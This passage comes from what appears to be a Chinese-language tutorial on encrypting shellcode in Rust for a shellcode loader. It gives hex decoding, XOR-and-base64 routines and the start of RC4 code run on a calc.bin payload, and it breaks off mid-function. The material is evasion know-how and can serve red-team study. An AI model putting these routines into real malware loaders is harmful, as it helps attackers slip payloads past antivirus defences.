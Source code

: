 ```plain
fn hex_dec(shellcode:String) -> Vec<u8> {
    hex::decode(shellcode).expect("Error")
}
```

### 异或加密

通过迭代器将 shellcode 与 key 逐个字符进行异或，然后进行 base64 编码返回一段字符串。

要进行解密，需要先进行 base64 解码，然后将异或加密后的 shellcode 再次与 key 进行逐个字符进行异或，即可还原 shellcode。

```plain
fn xor_encrypt(shellcode: &[u8], key: &[u8]) -> String {
    let mut encrypted = Vec::new();
    for (i, &b) in shellcode.iter().enumerate() {
        encrypted.push(b ^ key[i % key.len()]);
    }
    base64::encode(&encrypted)
}

fn xor_decrypt(encrypted: &[u8], key: &[u8]) -> Vec<u8> {
    let encrypted = base64::decode(encrypted).expect("msg");
    let mut decrypted = Vec::new();
    for (i, &b) in encrypted.iter().enumerate() {
        decrypted.push(b ^ key[i % key.len()]);
    }
    decrypted
}
```

### RC4 加密

Rust 要实现 RC4 加密与加密需要引入依赖，在`Cargo.toml`文件中添加下面的依赖。

```plain
[dependencies]
rust-crypto="0.2.36"
base64="0.13.0"
rustc-serialize = "0.3"
```

下面是实现 RC4 加解密的代码，在加密的函数中最终返回的是 Base64 编码后的字符串，而解密函数最终返回的是 Vec 数组，这是为了方便在 shellcode loader 中读取加密后的 shellcode 以及加载解密后的 shellcode。

```plain
use crypto::rc4::Rc4;
use crypto::symmetriccipher::SynchronousStreamCipher;
use std::iter::repeat;

fn main() {
    let buffer = include_bytes!("..\\calc.bin").as_slice();
    let key = "pRNtb343heAlnPFw5QiPHKxz3Z1dzLsqhiUyBNtTiI21DjUsZ0";

    let b64_string = enc(buffer, key);
    let shellcode = dec(b64_string.as_str(), key);

    println!("== RC4 ==");
    println!("Key: {}", key);
    println!("\nEncrypted (Base-64): {}", b64_string);
    println!("\nDecrypted: {:?}", shellcode);
}

fn enc(shellcode: &[u8], key: &str) -> String {
    let mut rc4 = Rc4::new(key.as_bytes());

    let mut result: Vec<u8> = repeat(0).take(shellcode.len()).collect();
    rc4.process(shellcode, &mut result);
```